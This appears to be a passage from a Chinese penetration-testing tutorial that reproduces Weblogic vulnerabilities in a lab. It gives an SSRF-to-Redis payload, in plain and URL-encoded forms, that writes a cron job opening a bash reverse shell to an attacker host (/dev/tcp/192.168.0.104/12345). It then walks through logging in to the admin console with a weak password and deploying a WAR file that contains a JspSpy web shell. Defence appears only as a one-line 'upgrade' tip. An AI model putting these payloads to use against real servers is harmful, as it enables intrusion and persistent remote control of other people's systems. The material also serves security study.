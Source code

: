![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDk7xZUlonvOHWtd5lAH7SXdabPVtZndREa2wWzNSh4LYjWHOHlBgcMA/640?wx_fmt=png)image-20210814204756777

burp 改包直接将弹 shell 脚本到本机 kail 上（192.168.0.104）

```
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/192.168.0.104/12345 0>&1\n\n\n\n"config set dir /etc/config set dbfilename crontabsave
```

经过 url 编码后，写入 bp 中 operator 参数的后面:

```
operator=http://172.20.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.104%2F12345%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDuEx3P5wqcYuquWW7hY8DbtgKyJEZ8jKnDD7frDKTLAtIyeNyicVuYTA/640?wx_fmt=png)image-20210814210942824![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDAZFPNGxR4twjqlEJUIK4Vj0iaicWClutsvOSJ6rM7enSvSMco2grxDsg/640?wx_fmt=png)image-20210814211117689

反弹 shell 成功。

##### 安全防护

升级高版本。

#### 8.Weblogic 弱口令 && 后台 getshell

##### 漏洞简介

由于管理员的安全意识不强，或者配置时存在疏忽，会导致后台存在弱口令或者默认的用户名 / 口令。

#### 影响版本

全版本

#### 漏洞复现

通过弱口令登录管理台后，点击部署 -> 安装

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDvctz5rfd6BfxibWyeEhIXNAgQbQuPxgOjicVVPAYFiapH4xc9ibD23ZklA/640?wx_fmt=png)image-20210814212040819![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaD11awxcWo4icAfVdXxrKbE845QXaia8HNmiaLwldXRHrwq5tvfSb7B5f7g/640?wx_fmt=png)image-20210814212434754![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDGfQUI0ibLP0qdgf6Miaiau4NUicrb79qKzj3S527MANUUlzxTa49MHAtbg/640?wx_fmt=png)image-20210814212521338

这里 war 包成功上传

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDLgeZ251korgAMDdfBmooQEwcBYt3niceHMDAf8SPVM8yRCpbibzqSzrQ/640?wx_fmt=png)image-20210814212645817

将其作为应用程序安装

image-20210814212857889![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDL7nNjYX6VyFgiaqHuclhb2rWcqEjws0hJG07TfiapbicMfey7BibJ8h9Rw/640?wx_fmt=png)image-20210814212917962

点击完成。

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDHrST3oZypicPCcNFqNs4XrqSBfA5NXjHxnhCttYMriaDt2NCw8K44jSw/640?wx_fmt=png)image-20210814213012827

可以看见部署成功，访问 url

```
http://192.168.0.105:7001/zcc/JspSpy.jsp
```
